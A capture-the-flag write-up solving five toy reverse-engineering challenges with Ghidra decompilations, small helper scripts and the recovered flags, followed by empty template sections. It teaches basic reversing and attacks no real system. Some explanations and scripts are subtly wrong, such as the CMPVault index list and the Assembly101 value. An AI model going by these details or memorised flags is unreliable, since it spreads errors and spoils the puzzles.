### flag_checker_1.0 - 150pts (500pts)

**Challenge**

```
You Came across A strange file/executable. It's Asking For a Flag.Can you provide It the Correct one?
```

**Files**

```
flag_checker_1.0
```

**Solution**

```
strings flag_checker_1.0 | grep -i CTF
```

**Flag:** `CTF{5Tr1ng5_4re_L0nG_4nD_Th1n}`

### Assembly101 - 226pts (500pts)

**Challenge**

```
For the given snippet of assembly language snippet, what do you think will be the final result of the register RCX (ecx) in decimal. Find out which instruction address the RIP register points to after executing jne (0x0804080) instruction

CTF101 Rev ((https://ctf101.org/reverse-engineering/what-is-assembly-machine-code/))

flag format: "ctf{nextAddress_ecxValue}"
```

**Files**

```
assembly1
```

**Solution**

```
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/Assembly101]
└─$ cat assemble1                                                                       1 ⚙
0x0804070	mov eax, 0x5
0x0804074	mov ebx, 0x50
0x0804078	mov ecx, 0xa

0x080407b	cmp eax, ebx
0x0804080	jne 0x080408a
0x0804086	add ecx, 0x5
0x080408a	add ecx, 0x5
```

The RIP address points to the next address that must be executed. Register ecx has the value 0xa i.e. 15.

**Flag:** `CTF{0x080408a_15}`

### guessing_game - 473pts (500pts)

**Challenge**

```
Wanna Have Some Fun? Came to the Right Place.. Lets play a Small game hehehehe.

nc 0.cloud.chals.io 20645
```

**Files**

```
guessme
```

**Solution**

I got first blood on the challenge!

Firing up ghidra on the executable, we get:

```c
undefined8 main(void)

{
  int local_30;
  int local_2c;
  int local_28;
  int local_24;
  int local_20;
  int local_1c;
  char *local_18;
  uint local_c;
  
  local_18 = "CTF{FAKE_TEST_FLAG}";
  local_c = 0;
  local_1c = rand();
  local_1c = local_1c % 1000;
  local_20 = rand();
  local_20 = local_20 % 1000;
  local_24 = rand();
  local_24 = local_24 % 1000;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("LETS PLAY A GAME.......");
  sleep(1);
  puts("GUESS 3 NUMBERS BETWEEN 1 to 1000 And I will Tell If its Correct or NOT");
  sleep(1);
  puts("IF YOU GUESS ALL THREE NUMBERS RIGHT.. I WILL REWARD YOU!!!");
  sleep(1);
  puts("READY?? GO!!...");
  sleep(1);
  printf("Enter first Number >  ");
  __isoc99_scanf(&DAT_001020e3,&local_28);
  printf("Enter Second Number >  ");
  __isoc99_scanf(&DAT_001020e3,&local_2c);
  printf("Enter third  Number >  ");
  __isoc99_scanf(&DAT_001020e3,&local_30);
  if (local_1c == local_28) {
    local_c = local_c + 1;
  }
  if (local_20 == local_2c) {
    local_c = local_c + 1;
  }
  if (local_24 == local_30) {
    local_c = local_c + 1;
  }
  if (local_c == 3) {
    printf("CONGRATS YOU GOT ALL THREE RIGHT AS PROMISED HERE IS YOUR REWARD!!     %s\n",local_18);
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (local_c != 3) {
    printf("Sorry You got %d right!!",(ulong)local_c);
    sleep(1);
    printf("TRy Againn!! byee :P");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return 0;
}
```

It can be seen that the `rand()` function is being called thrice. As the random function is not seeded using `srand`, it will generate the same values each time. Writing our own program to find out what those random values are:

```c
#include <stdio.h>
#include <stdlib.h>

int main () {
    printf("%d\n", rand());
    printf("%d\n", rand());
    printf("%d\n", rand());

    return 0;
}
```

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/Guessing-game]
└─$ ./test.o                                                                            1 ⚙
1804289383
846930886
1681692777
```

As the original program takes the values modulo 1000, we enter:
```
383
886
777
```

and retrieve the flag.

**Flag:** `CTF{D0nT_F0rG3T_Th3_sr4nD}`

### CMPVault - 490pts (500pts)

**Challenge**

```
Find the password to unlock the given vault. It's called CMP Vault wonder if that means anything. submit the password as the flag
```

**Files**

```
cmp
```

**Solution**

Opening the executable in ghidra and collecting relevant information, we have:

```c
#include <stdio.h>
#include <string.h>

int main (int param_1, char* param_2[]) {
  int sVar1;
  
  if (param_1 == 2) {
    sVar1 = strlen(*(char **)(param_2 + 8));
    if (((((sVar1 == 0x2f) && (*(char *)(*(long *)(param_2 + 8) + 0x2b) == 'm')) &&
         (**(char **)(param_2 + 8) == 'c')) &&
        (((((*(char *)(*(long *)(param_2 + 8) + 0x19) == '3' &&
            (*(char *)(*(long *)(param_2 + 8) + 0x2c) == 'p')) &&
           ((*(char *)(*(long *)(param_2 + 8) + 0x2d) == 's' &&
            ((*(char *)(*(long *)(param_2 + 8) + 6) == 'n' &&
             (*(char *)(*(long *)(param_2 + 8) + 0x25) == 'r')))))) &&
          (*(char *)(*(long *)(param_2 + 8) + 0x20) == 'n')) &&
         (((((*(char *)(*(long *)(param_2 + 8) + 0x15) == 'r' &&
             (*(char *)(*(long *)(param_2 + 8) + 0xc) == 'h')) &&
            (*(char *)(*(long *)(param_2 + 8) + 0x11) == '4')) &&
           ((*(char *)(*(long *)(param_2 + 8) + 3) == '{' &&
            (*(char *)(*(long *)(param_2 + 8) + 4) == 'l')))) &&
          ((*(char *)(*(long *)(param_2 + 8) + 0xd) == '3' &&
           ((*(char *)(*(long *)(param_2 + 8) + 0x17) == '4' &&
            (*(char *)(*(long *)(param_2 + 8) + 0x16) == 'e')))))))))) &&
       ((((*(char *)(*(long *)(param_2 + 8) + 0x1f) == '_' &&
          (((((*(char *)(*(long *)(param_2 + 8) + 0x28) == 'f' &&
              (*(char *)(*(long *)(param_2 + 8) + 0xf) == 'f')) &&
             (*(char *)(*(long *)(param_2 + 8) + 0x27) == 'o')) &&
            ((*(char *)(*(long *)(param_2 + 8) + 1) == 't' &&
             (*(char *)(*(long *)(param_2 + 8) + 8) == '3')))) &&
           (*(char *)(*(long *)(param_2 + 8) + 5) == '0')))) &&
         (((((*(char *)(*(long *)(param_2 + 8) + 0x1c) == '7' &&
             (*(char *)(*(long *)(param_2 + 8) + 2) == 'f')) &&
            ((*(char *)(*(long *)(param_2 + 8) + 0x29) == '_' &&
             (((*(char *)(*(long *)(param_2 + 8) + 0xb) == 't' &&
               (*(char *)(*(long *)(param_2 + 8) + 0x13) == '_')) &&
              (*(char *)(*(long *)(param_2 + 8) + 0x23) == 'b')))))) &&
           (((*(char *)(*(long *)(param_2 + 8) + 0x18) == 't' &&
             (*(char *)(*(long *)(param_2 + 8) + 0x2e) == '}')) &&
            (*(char *)(*(long *)(param_2 + 8) + 0x1d) == 'h')))) &&
          (((*(char *)(*(long *)(param_2 + 8) + 0x1e) == '3' &&
            (*(char *)(*(long *)(param_2 + 8) + 0x14) == 'g')) &&
           ((*(char *)(*(long *)(param_2 + 8) + 0x2a) == 'c' &&
            (((*(char *)(*(long *)(param_2 + 8) + 7) == 'g' &&
              (*(char *)(*(long *)(param_2 + 8) + 0x24) == '3')) &&
             (*(char *)(*(long *)(param_2 + 8) + 0x10) == 'l')))))))))) &&
        (((*(char *)(*(long *)(param_2 + 8) + 0x12) == 'G' &&
          (*(char *)(*(long *)(param_2 + 8) + 0x1b) == '_')) &&
         ((*(char *)(*(long *)(param_2 + 8) + 0xe) == '_' &&
          (((*(char *)(*(long *)(param_2 + 8) + 0x22) == 'm' &&
            (*(char *)(*(long *)(param_2 + 8) + 9) == 'r')) &&
           ((*(char *)(*(long *)(param_2 + 8) + 10) == '_' &&
            (((*(char *)(*(long *)(param_2 + 8) + 0x26) == '_' &&
              (*(char *)(*(long *)(param_2 + 8) + 0x21) == 'u')) &&
             (*(char *)(*(long *)(param_2 + 8) + 0x1a) == 'r')))))))))))))) {
      printf("yaay you unlocked the vault!!!\n");
    }
  }
  else {
    printf("Usage: ./cmp <password>\n");
  }
  return 0;
}
```

It is clear that different positions of the flag are being compared to user input. We can simply assign the given positions their values and retrieve the flag.

```python
s = """

0x2b , 'm' 
8 , 'c' 
0x19 , '3' 
0x2c , 'p' 
0x2d , 's' 
6 , 'n' 
0x25 , 'r' 
0x20 , 'n' 
0x15 , 'r' 
0xc , 'h' 
0x11 , '4' 
3 , '{' 
4 , 'l' 
0xd , '3' 
0x17 , '4' 
0x16 , 'e' 
0x1f , '_' 
0x28 , 'f' 
0xf , 'f' 
0x27 , 'o' 
1 , 't' 
8 , '3' 
5 , '0' 
0x1c , '7' 
2 , 'f' 
0x29 , '_' 
0xb , 't' 
0x13 , '_' 
0x23 , 'b' 
0x18 , 't' 
0x2e , '}' 
0x1d , 'h' 
0x1e , '3' 
0x14 , 'g' 
0x2a , 'c' 
7 , 'g' 
0x24 , '3' 
0x10 , 'l' 
0x12 , 'G' 
0x1b , '_' 
0xe , '_' 
0x22 , 'm' 
9 , 'r' 
10 , '_' 
0x26 , '_' 
0x21 , 'u' 
0x1a , 'r'
"""

l = s.strip().splitlines()

st = set()

k = [0] * 50

for i in l:
    i = i.strip()
    a, b = i.split(',')
    a = int(a.strip(), 16)
    st.add(a)
    b = b.strip().strip("'")
    k[a] = b

# print(sorted(st))

for i in k:
    print(i, end='')
```

**Flag:** `ctf{l0ng3r_th3_fl4G_gre4t3r_7h3_numb3r_of_cmps}`

### flag_checker_2.0 - 494pts (500pts)

**Challenge**

```
The Flag Checker Has Returned.And This Time with Even greater Power!! Can You Beat It Again?
```

**Files**

```
flag_checker_2.0
```

**Solution**

Opening the executable with ghidra, we find some hex strings and code that works on those hex strings. Here's the code rewritten:

```cpp
#include <iostream>
#include <cstring>

int main () {
    int64_t a = 0x603336417c415344;
    int64_t b = 0x69366c64626f4458;
    int64_t c = 0x6f53585568415840;
    int64_t d = 0x36505834;
    int64_t e = 0x7a69;
    int64_t f = 7;
    int64_t g = 0;
    
    int64_t u = 0;
    int64_t v = 0;

    int ans[1000];

    while (true) {
        u = g;
        v = 20;
        std::cout << v << '\n';
        if (v <= u)
            break;
        int x = (unsigned char)f ^ *(char*)((long)&a + g);
        ans[g] = x;
        g += 1;
    }
    ans[g] = '\0';

    for (int i = 0; ans[i] != '\0'; ++i)
        std::cout << (char)ans[i];

    return 0;
}
```

I run the code a few times. Each time, I change the `*(char*)(long)&a + g` part to the next variable for every variable `a b c d e` and retrieve part of the flag each time.

**Flag:** `CTF{F14g_Check1nG_FoR_Th3_W1n}`

###  - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``

### - pts (pts)

**Challenge**

```
```

**Files**

```
```

**Solution**

**Flag:** ``


